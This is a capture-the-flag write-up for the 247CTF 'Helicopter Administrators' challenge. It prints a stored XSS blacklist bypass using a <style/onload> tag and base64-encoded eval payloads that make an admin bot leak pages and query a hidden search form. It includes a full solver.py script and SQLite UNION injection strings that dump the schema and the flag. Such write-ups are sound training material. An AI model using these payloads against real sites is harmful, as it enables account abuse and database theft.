







# HELICOPTER ADMINISTRATORS [HARD]

## Description

> This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't?

## Source Code

No source code.

## Short Solution Description / Tags

XSS, SQLite SQL Injection

## Explore functionality


There are Admin and User 1, User 2 and User 3 pages.



We cannot access the Admin page.







It has a reporting to admin and a commenting functionalities.
We cannot comment characters that are included in the blacklist, such as `<script`.
Admin will access reporting page and remove comment.

I consider using XSS to make Admin access the Admin page /user/0 and get the response.
`<style` is not included in the blacklist so I input `<style/onload=alert(1)></style>` to comment and reload.



XSS fired.

## XSS Exploitation

Since Admin does not have an internet connection, I consider an XSS payload that Admin sends a request to /user/0 and comments its response to /user/3.

xss.js

```js
const xhr = new XMLHttpRequest();
xhr.open("GET", "/user/0", true);
xhr.send();
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + btoa(resp);
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
```

Base64 encode:

```console
$ base64 xss.js -w 0
Y29uc3QgeGhyID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnhoci5vcGVuKCJHRVQiLCAiL3VzZXIvMCIsIHRydWUpOwp4aHIuc2VuZCgpOwp4aHIub25sb2FkID0gZnVuY3Rpb24oKSB7ewogIGNvbnN0IHJlc3AgPSB4aHIucmVzcG9uc2U7CiAgY29uc3QgeGhyMiA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogIHhocjIub3BlbigiUE9TVCIsIi9jb21tZW50LzMiLHRydWUpOwogIGNvbnN0IHBhcmFtcyA9ICJjb21tZW50PSIgKyBidG9hKHJlc3ApOwogIHhocjIuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwogIHhocjIuc2VuZChwYXJhbXMpOwp9fTsK
```

Input the following comment:

```html
<style/onload=eval(atob("Y29uc3QgeGhyID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnhoci5vcGVuKCJHRVQiLCAiL3VzZXIvMCIsIHRydWUpOwp4aHIuc2VuZCgpOwp4aHIub25sb2FkID0gZnVuY3Rpb24oKSB7ewogIGNvbnN0IHJlc3AgPSB4aHIucmVzcG9uc2U7CiAgY29uc3QgeGhyMiA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogIHhocjIub3BlbigiUE9TVCIsIi9jb21tZW50LzMiLHRydWUpOwogIGNvbnN0IHBhcmFtcyA9ICJjb21tZW50PSIgKyBidG9hKHJlc3ApOwogIHhocjIuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwogIHhocjIuc2VuZChwYXJhbXMpOwp9fTsK"))></style>
```

and report it and access /user/3 page.



Decode it; replace single space (` `) to `+` by Find/Replace Recipe and decode by From Base64 Recipe:



I could get the /user/0 response, but The flag was not in the page.
Instead, the post form for /secret_admin_search was found.

I still need to make Admin send various requests so I scripted to automate the operations.

<details><summary>solver.py</summary>

```python
import base64
import random
import re
import string
import sys
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://11ee61b5d4e6169f.247ctf.com"


RANDOM_STR = "".join(random.choices(string.ascii_letters, k=10))

# XSS Payload for /user/0 response
XSS_PAYLOAD = f"""\
const xhr = new XMLHttpRequest();
xhr.open("GET", "/user/0", true);
xhr.send();
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
"""

SQLI_INPUT = sys.argv[1] if len(sys.argv) == 2 else "a"

XSS_PAYLOAD = f"""\
const xhr = new XMLHttpRequest();
xhr.open("POST", "/secret_admin_search", true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("search=" + "{SQLI_INPUT}");
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
"""


def main():
    xss_payload = base64.b64encode(XSS_PAYLOAD.encode()).decode()
    xss_payload = f'<style/onload=eval(atob("{xss_payload}"))></style>'

    # post comment with XSS Payload
    r = s.post(f"{BASE_URL}/comment/1", data={"comment": xss_payload})
    assert r.json()["result"] == "success", "Failed [POST] /comment/1"

    # report to let admin access to /user/1
    r = s.get(f"{BASE_URL}/report/1")
    assert r.json()["result"] == "success", "Failed [GET] /report/1"

    # get response
    r = s.get(f"{BASE_URL}/user/3")
    m = re.findall(rf"{RANDOM_STR}(.*?){RANDOM_STR}", r.text)
    assert m, "Not found admin access to [POST] /comment/3"

    b64_leaked_html = base64.b64decode(m[0].replace(" ", "+").encode()).decode()
    print(b64_leaked_html)


if __name__ == "__main__":
    main()
```

</details>

## SQLi Exploitation

For POST /secret_admin_search XSS Payload:

```js
const xhr = new XMLHttpRequest();
xhr.open("POST", "/secret_admin_search", true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("search=a");
xhr.onload = function() {{
  const resp = xhr.response;
  const xhr2 = new XMLHttpRequest();
  xhr2.open("POST","/comment/3",true);
  const params = "comment=" + "{RANDOM_STR}" + btoa(resp) + "{RANDOM_STR}";
  xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr2.send(params);
}};
```

Result:

```console
$ python3 solver.py
{"message":"SQLite error: no such column: a","result":"error"}
```

It seems to have a SQLi vulnerability so tried SQLite SQLi payload.

```console
$ python3 solver.py 'id'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # UNION SELECT is available
$ python3 solver.py 'id UNION SELECT 1,2,3,4,5,6--'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,2,3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # dumped SQLite verion
$ python3 solver.py 'id UNION SELECT 1,sqlite_version(),3,4,5,6--'
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"3.25.3",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}


$ # dumped the table schema and found flag table
$ python3 solver.py "id UNION SELECT 1,GROUP_CONCAT('---'||sql||'---'),3,4,5,6 FROM sqlite_master--"
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"---CREATE TABLE user (id int primary key, name text, friends int, likes int, shares int, location text)---,---CREATE TABLE comment (id int, comment text)---,---CREATE TABLE flag (flag text)---",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

$ # got the flag
$ python3 solver.py "id UNION SELECT 1,GROUP_CONCAT('---'||flag||'---'),3,4,5,6 FROM flag--"
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"---247CTF{[REDACTED]}---",3,4,5,6],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}
```
